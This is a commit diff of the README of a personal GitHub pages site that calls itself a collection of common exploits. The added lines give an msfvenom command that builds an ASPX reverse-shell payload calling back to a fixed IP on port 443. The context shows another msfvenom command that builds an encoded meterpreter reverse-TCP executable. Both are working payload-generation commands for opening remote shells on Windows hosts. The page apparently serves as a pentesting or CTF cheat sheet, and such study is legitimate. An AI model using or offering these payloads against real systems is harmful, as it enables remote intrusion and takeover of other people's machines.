

Before and after one commit to dayaramb/dayaramb.github.io, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -10,6 +10,9 @@ In this site I am attempting to collect most of the common exploits that appear
 
 ```bash
 msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
+For aspx Reverse shell:
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.14.242 LPORT=443 -f aspx -o rev.aspx
+
 ```
 
 ```bash
````
